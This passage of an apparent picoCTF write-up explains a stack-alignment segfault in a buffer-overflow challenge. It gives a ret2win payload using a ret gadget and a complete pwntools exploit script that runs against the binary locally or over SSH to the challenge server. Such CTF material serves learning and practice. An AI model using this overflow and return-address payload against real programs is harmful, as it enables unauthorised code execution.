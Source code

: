 [A quick google search](https://c9x.me/x86/html/file_module_x86_id_180.html) shows that "When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated" which is what caused the segfault. In other words, the program crashed because `rsp+0x50` which equals `0x7ffda0c16578` is not a multiple of 16. To fix this, we really just need to shift the stack by 8 bytes through calling any other function before the win function:

- offset
- any_function_addr
- win_addr

For example, a payload of `payload = 'a'*(0x40+8)+p64(0x00000000004005de)+p64(win_addr)` also works where `0x00000000004005de` is a simple ret gadget:

```
$ r2 ./vuln
[0x00400680]> pd 1 @ 0x00000000004005de
            0x004005de      c3             ret
```

Thanks [unprovoked](http://disq.us/p/24wpy1g) for bringing this to my attention.

---

Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  if DEBUG:
    attach_gdb()

  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('vuln', cwd='/problems/newoverflow-1_0_f9bdea7a6553786707a6d560decc5d50')
  REMOTE = True


win_addr = 0x00400767
main_addr = 0x004007e8
payload = 'a'*(0x40+8)+p64(main_addr)+p64(win_addr)

sh.sendlineafter(': ', payload)
sh.sendlineafter(': ', 'a')
```
